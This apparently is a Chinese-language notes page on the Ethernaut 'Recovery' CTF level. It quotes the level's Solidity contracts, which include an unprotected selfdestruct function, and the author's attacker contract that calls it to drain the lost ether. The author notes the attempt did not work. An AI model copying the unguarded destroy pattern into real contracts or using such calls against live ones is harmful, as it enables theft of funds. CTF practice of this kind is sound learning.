

> A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.
>
> This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```


我们直接在区块链浏览器能看到下面那个contract的地址，



而浏览器直接js是操作的Recovery合约，所以我们还是要写外部合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ISimpleToken {
    function destroy(address payable _to) external;
}

contract SimpleToken {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function withdraw() public {
        ISimpleToken(levelInstance).destroy(payable(msg.sender));
    }
}
```

但是没打通？？？